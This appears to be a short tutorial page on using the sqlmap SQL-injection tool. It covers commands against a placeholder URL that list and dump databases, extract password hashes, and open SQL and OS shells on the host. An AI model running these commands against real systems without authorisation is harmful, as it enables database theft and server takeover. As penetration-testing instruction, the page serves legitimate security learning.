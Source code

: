 ```yaml
---
title: "metasploit"
# search:
#   exclude: true

# hide:
#   - navigation
#   - toc
  #- footer
---
```


`sqlmap` is an open source automated penetration testing tool which can be used to detect and exploit SQL Injection flaws in a web application and potentially take over database servers.

It is a powerful tool that comes pre-installed in Kali Linux.

`URL_TARGET='http://www.example.com/form.php?id=123'`

`sqlmap -u ${URL_TARGET}`

The `URL_TARGET` must contain at least one parameter (example `?id=123`) in order to attempt different SQL injection methods.

example command  
`sqlmap -u 'http://www.example.com/form.php?id=123'`

If a vulnerability is found, you can use

* `--dbs` to list all databases

* `--tables` to list all tables  
`-T TABLE_NAME` to get the table information

* `--columns` to list all columns  
`-C COLUMN_NAME` to get the column information

* `--dump` to list all information

* `--sql-shell` to execute SQL queries

* `--os-shell` to access the underlying host operating system

* `sqlmap -h` help within the command

For more information and official documentation,  
check the official website at [https://sqlmap.org/](https://sqlmap.org/)

```bash
# sample from website

sqlmap -u 'http://www.example.com/form.php?id=123' --batch --banner

sqlmap -u 'http://www.example.com/form.php?id=123' --batch --passwords

sqlmap -u 'http://www.example.com/form.php?id=123' --batch --dbs

sqlmap -u 'http://www.example.com/form.php?id=123' --batch -D DATABASEBASE --all  # extracts all information from DB

sqlmap -u 'http://www.example.com/form.php?id=123' --batch --auth-type Basic --auth-cred "testuser:testpass"

sqlmap -u 'http://www.example.com/form.php?id=123' --batch --passwords

```

Exhaustive breakdown of all options and switches together with examples  
[https://github.com/sqlmapproject/sqlmap/wiki/Usage](https://github.com/sqlmapproject/sqlmap/wiki/Usage)

Other examples of code injection - [https://owasp.org/www-community/Injection_Flaws](https://owasp.org/www-community/Injection_Flaws)
